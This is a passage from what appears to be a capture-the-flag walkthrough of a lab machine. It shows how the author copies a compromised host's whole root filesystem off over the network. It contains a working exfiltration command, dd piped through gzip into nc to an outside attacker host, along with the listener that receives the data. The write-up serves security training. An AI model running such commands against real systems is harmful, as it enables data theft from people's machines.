 `dm-0` is the device I want to read off to get the root of the filesystem.

#### Exfil Filesystem

I’ll use `dd` to read from the device, and `nc` to copy the entire filesystem off the device back to my host. I’ll send it through `gzip` to compress it so that it will move faster, but it still takes over seven minutes:

```

atanas@kotarak-dmz:~$ time dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.15 443
14680064+0 records in
14680064+0 records out
7516192768 bytes (7.5 GB, 7.0 GiB) copied, 438.725 s, 17.1 MB/s

real    7m18.932s
user    2m4.900s
sys     0m25.648s

```

Back on my host:

```

oxdf@parrot$ nc -lnvp 443 > dm-0.gz
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 34610

```

When it’s done, the compressed file is a bit over two gigs:

```

oxdf@parrot$ ls -lh dm-0.gz
-rwxrwx--- 1 root vboxsf 2.2G May 15 15:21 dm-0.gz

```

It decompresses to seven gigs:

```

oxdf@parrot$ gunzip dm-0.gz 
oxdf@parrot$ ls -lh dm-0 
-rwxrwx--- 1 root vboxsf 7.0G May 15 15:40 dm-0

```

I can mount it, and access the file system:

```

oxdf@parrot$ sudo mount dm-0-orig /mnt/
oxdf@parrot$ ls /mnt/
backups  bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old

```
